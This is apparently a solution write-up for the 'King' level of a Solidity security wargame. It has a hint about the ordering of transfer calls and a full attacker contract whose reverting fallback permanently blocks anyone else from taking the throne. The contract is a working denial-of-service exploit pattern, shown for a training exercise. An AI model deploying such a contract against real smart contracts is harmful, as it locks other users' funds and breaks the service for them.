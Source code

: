 # King

**HINT:** 
```
king.transfer(msg.value);
is called before changing the king
``` 

<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.4;

contract KillSlayer {
    
    function AllSeeingKing(address addr) public payable {
        (bool result, bytes memory data) = addr.call{value:msg.value}("");
        if(!result) revert("reverted");
    }
    
    fallback() external payable { 
        revert("me king hehe");
    }
}

```
Add the instance address<br></br>
you can check if you are the king now with:
```js
await contract._king()
```
</p>
</details>